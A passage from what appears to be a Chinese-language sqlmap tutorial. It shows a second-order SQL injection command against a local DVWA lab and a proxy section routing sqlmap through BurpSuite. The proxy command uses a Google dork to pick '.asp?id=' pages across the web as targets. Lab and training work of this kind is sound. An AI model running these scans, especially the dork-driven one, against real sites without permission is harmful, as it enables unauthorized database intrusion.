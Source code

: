 ```http
Connection: close

id=1&Submit=Submit
```

```
┌──(root㉿kali)-[~]
└─# sqlmap -r "http.txt" --second-url "http://192.168.1.76/DVWA/vulnerabilities/sqli/" --level 5 --risk 2 -f -b --beep
```

> 这里会在新的窗口提交参数，需要使用二阶注入，请求头是在新的窗口提交参数后拦截的，`--second-url` 指向的是源目标网址

lmpossible

### 2.8. Proxy

BurpSuite 开启上游服代理, 配置代理启动 `sqlmap` 

```
┌──(root㉿kali)-[~]
└─# sqlmap -g "inurl:\".asp?id=24\"" --proxy "http://127.0.0.1:8080" --level 5 --risk 2 -f -b --beep
```

> 由于 `ssl` 证书的问题，`sqlmap` 对 `https` 的网站进行扫描时需要通过 `burpsuite` 中转

---

Refrences

- [sqlmap](https://www.kali.org/tools/sqlmap/)
